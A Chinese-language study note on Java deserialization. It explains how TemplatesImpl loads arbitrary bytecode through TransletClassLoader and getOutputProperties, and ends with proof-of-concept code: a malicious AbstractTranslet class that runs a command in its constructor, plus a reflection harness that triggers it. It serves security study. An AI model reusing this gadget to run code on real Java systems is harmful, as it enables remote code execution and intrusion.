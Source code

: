 # TemplatesImpl
- [TemplatesImpl](#templatesimpl)
  - [ClassLoader](#classloader)
    - [defineClass类加载](#defineclass类加载)
  - [TransletClassLoader#defineClass](#transletclassloaderdefineclass)
    - [defineTransletClasses](#definetransletclasses)
      - [getTransletClasses()](#gettransletclasses)
      - [getTransletIndex()](#gettransletindex)
      - [getTransletInstance()](#gettransletinstance)
    - [newTransformer()](#newtransformer)
  - [POC构造](#poc构造)
    - [关键点](#关键点)

## ClassLoader
每个ClassLoader对象都是一个java.lang.ClassLoader的实例,每一个class对象都是由ClassLoader对象来加载,也可以继承java.lang.ClassLoader来扩展自定义ClassLoader来加载类.  
### defineClass类加载
在ClassLoader中有一个defineClass可以通过参数b传入字节码来加载一个Class.
```java
    protected final Class<?> defineClass(String name, byte[] b, int off, int len,
                                         ProtectionDomain protectionDomain)
        throws ClassFormatError
    {
        protectionDomain = preDefineClass(name, protectionDomain);
        String source = defineClassSourceLocation(protectionDomain);
        Class<?> c = defineClass1(name, b, off, len, protectionDomain, source);
        postDefineClass(c, protectionDomain);
        return c;
    }
```
## TransletClassLoader#defineClass
在java.lang.ClassLoader中的defineClass属性为protected,无法直接在外部访问,只能通过反射调用.而在TemplatesImpl.java中有一个TransletClassLoader类,其中继承了ClassLoader并重写了defineClass,其中没有显式声明作用域,而默认下为作用域default,代码如下
```java
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
```
### defineTransletClasses
而引用了TransletClassLoader.defineClass的的地方则是在defineTransletClasses().
![](2021-12-21-11-40-42.png).
可以看到将属性`_bytecodes`值传入loader.defineClass中,同时该属性为private访问权限.
而引用了defineTransletClasses()的地方一共有三处:
* getTransletClasses()
* getTransletIndex()
* getTransletInstance()
#### getTransletClasses()
相关代码如下
```java
    private synchronized Class[] getTransletClasses() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _class;
    }
```
在该方法中,虽然调用了defineTransletClasses()方法来加载了我们指定的类,但却没有对该类进行实例化,导致无法执行类中的静态代码块,也就无法执行我们的恶意代码.
#### getTransletIndex()
```java
    public synchronized int getTransletIndex() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _transletIndex;
    }
```
该方法同理,也没有进行实例化.
#### getTransletInstance()
```java
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            ...
            ...
            ...
```
在该方法中,调用了`_class`的newInstance(),也就是对加载的指定类进行了实例化,我们的恶意代码也就可以自动触发了.
### newTransformer()
可以看到只有getTransletInstance()符合要求,而引用了getTransletInstance()的地方则是在newTransformer()中.
```java
    public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);
            ...
            ...
            ...
```
可以看到该类必须要是一个AbstractTranslet类型,而该类为一个抽象类,也就是我们传入的类也要是AbstractTranslet类的实现类.
而newTransformer()则是在getOutputProperties()中
```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```
## POC构造
现在的触发流程如下:
1. getOutputProperties()->newTransformer()
2. newTransformer()->getTransletInstance()
3. getTransletInstance()->defineTransletClasses()
4. defineTransletClasses()->TransletClassLoader()
5. TransletClassLoader()->defineClass()
6. defineClass()->加载指定类
7. _class.newInstance()实例化指定类,触发静态代码块或者构造函数中的恶意代码.  
8. 
![](2021-12-27-21-47-08.png)
继承了AbstractTranslet的恶意类实例代码:
```java
public class Poc extends AbstractTranslet {
    public Poc() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public static void main(String[] args) throws Exception{
        Poc poc = new Poc();
    }

}
```
从getOutputProperties当入口为例.
```java
 public static void main(String[] args) throws Exception {
        TemplatesImpl jrs = new TemplatesImpl();
        byte [] code = getbytes("D:\\\\coding\\\\Temlpates\\\\target\\\\test-classes\\\\Poc.class");
        setFieldValue(jrs,"_bytecodes",new byte[][] {code});
        setFieldValue(jrs,"_name","1");
        setFieldValue(jrs,"_tfactory",new TransformerFactoryImpl());
        jrs.getOutputProperties();
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static byte[] getbytes(String filename) throws Exception{
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(filename)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        byte[] result = bos.toByteArray();
        return result;
    }
}
```
![](2021-12-21-19-19-55.png)

### 关键点
1. 通过反射来设置TemplatesImpl的相关属性.
2. _name属性要不为空.  
![](2021-12-21-19-17-09.png)
3. _tfactory属性要为TransformerFactoryImpl对象.
![](2021-12-21-19-17-47.png)
不然在生成TransletClassLoader时会报错.
![](2021-12-21-19-18-16.png)

